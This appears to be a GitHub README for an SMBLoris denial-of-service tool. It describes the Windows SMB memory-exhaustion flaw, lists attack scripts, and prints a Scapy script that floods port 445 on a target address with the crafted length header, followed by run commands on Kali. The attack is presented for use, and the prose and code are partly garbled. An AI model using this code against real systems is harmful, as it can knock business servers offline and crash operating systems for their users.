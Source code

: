 # what IS the Smb !! 
Me sharing files remotely by Protocol SMBv1 Or SMBv2 SMBv3 
-------------------------
vulnerable On Next in Text from i,am 
The vulnerability is in all modern versions of Windows, at least from Windows 2000 through Windows 10. Systems are still vulnerable even if all versions of SMBv1 SMBv2 SMBv3 are disabled

It is computationally inexpensive for an attacker to cause large memory allocations and enormous amounts of wasted CPU cycles†, rendering vulnerable machines completely unusable, making business-critical services (such as web and mail servers) unavailable, and even causing the entire operating system to crash !!
''''''''''
And Windows immediately commits in memory a number of bytes determined by the attacker-controlled Length field, which is 217 for a max of 131,072 bytes (128 KiB). This memory is in the "non-paged pool" (physical RAM) which cannot be swapped out to disk, making the denial of service even more effective. CPU and memory resources are effectively lost for as long as the connection is sustained

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

SMBLoris works over IPv4 and IPv6, and acquiring multiple IPs on a LAN can amplify the attack. The amount of machines required to perform a distributed denial of service (DDoS) attack against more powerful servers is also significantly reduced.


# But by me files
1 rest.sh 

2 run.sh  

3 smb3.py 

Works only on Kali version 2 #
Or
SMBLoris.c 

Normal Works on All systems Linux !! Redhat kali And And And And Etc!!

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

1 >_  Now we use smb3.py 

2 >_ Now we go to run rest.sh

![screenshot from 2017-08-09 19-19-12](https://user-images.githubusercontent.com/25440152/29142117-de3c8ec2-7d1e-11e7-8144-20261cf78916.png)
# Next >_ let's go To arrange
Edit Code file smb3.py 
```
from scapy.all import
import sys

    p0 = int(sys.argv[1])

    conf.L3socket
    conf.L3socket=L3RawSocket

    i = IP()
    i.dst = "192.168.1.4"
    t = TCP()
    t.dport = 445

    for p in range(p0, p0+700):
      print p
      t.sport = p
      t.flags = "S"

      r = sr1(i/t)
      rt = r[TCP]
      t.ack = rt.seq + 1
      t.seq = rt.ack
      t.flags = "A"
      sbss = '\x00\x01\xff\xff'
      send(i/t/sbss)

```
------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

! >_  let's go To Run run.sh After we have arranged file smb3.py 


```
root@kali:~/Desktop# chmod +x run.sh

root@kali:~/Desktop#./run.sh
